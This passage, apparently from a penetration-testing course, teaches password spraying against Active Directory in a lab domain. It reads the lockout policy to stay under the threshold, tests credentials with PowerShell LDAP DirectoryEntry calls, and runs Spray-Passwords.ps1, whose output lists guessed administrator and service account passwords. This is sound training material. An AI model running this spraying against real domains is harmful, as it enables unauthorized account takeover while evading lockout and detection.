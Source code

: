 In the previous section, we have looked at how service accounts may be attacked by abusing the features of the Kerberos protocol, but Active Directory can also provide us with information that may lead to a more advanced password guessing technique against user accounts.

When performing a brute-force or wordlist authentication attack, we must be aware of account lockouts since too many failed logins may block the account for further attacks and possibly alert system administrators.

In this section, we will use LDAP and ADSI to perform a "low and slow" password attack against AD users without triggering an account lockout.

First, let's take a look at the domain's account policy with net accounts:

```
PS C:\Users\Offsec.corp> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

There's a lot of great information here, but let's first focus on "Lockout threshold", which indicates a limit of five login attempts before lockout. This means that we can safely attempt four logins without triggering a lockout. This doesn't sound like much, but consider the _Lockout observation window_, which indicates that after thirty minutes after the last failed login, we are able to make another attempt.

With these settings, we could attempt one hundred and ninety-two logins in a twenty-four-hour period against every domain user without triggering a lockout, assuming the actual users don't fail a login attempt.

An attack like this would allow us to compile a short list of very commonly used passwords and use it against a massive amount of users, which in practice, reveals quite a few weak account passwords in the organization.

Knowing this, let's implement this attack.

There are a number of ways to test an AD user login, but we can use our PowerShell script to demonstrate the basic components. In previous sections, we performed queries against the domain controller as the logged-in user. However, we can also make queries in the context of a different user by setting the _DirectoryEntry_ instance.

In previous examples, we used the _DirectoryEntry_ constructor without arguments, but we can provide three arguments including the LDAP path to the domain controller as well as the username and the password:

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```

If the password for the user account is correct, the object creation will be successful as shown in Listing 37.

```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC01.corp.com/DC=corp,DC=com
```

If the password is invalid, no object will be created and we will receive an exception as shown below. Note the clear warning that the user name or password is incorrect.

```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
"
  + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
  + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
```

In this manner, we can create a PowerShell script that enumerates all users and performs authentications according to the _Lockout threshold_ and _Lockout observation window_.

An existing implementation of this attack called Spray-Passwords.ps1 is located in the C:\\Tools\\active_directory folder of the Windows 10 client.

The -Pass option allows us to set a single password to test, or we can submit a wordlist file with _-File_. We can also test admin accounts with the addition of the -Admin flag.

```
PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'Administrator' = 'Qwerty09!'
Guessed password for user: 'offsec' = 'Qwerty09!'
Guessed password for user: 'adam' = 'Qwerty09!'
Guessed password for user: 'iis_service' = 'Qwerty09!'
Guessed password for user: 'sql_service' = 'Qwerty09!'
Stopping bruteforce now....
Users guessed are:
 'Administrator' with password: 'Qwerty09!'
 'offsec' with password: 'Qwerty09!'
 'adam' with password: 'Qwerty09!'
 'iis_service' with password: 'Qwerty09!'
 'sql_service' with password: 'Qwerty09!'
```

This trivial example produces quick results but more often than not, we will need to use a wordlist with good password candidates.

We have now uncovered ways of obtaining credentials for both user and service accounts when attacking Active Directory and its authentication protocols. Next, we can start leveraging this to compromise additional machines in the domain, ideally those with high-value logged-in users.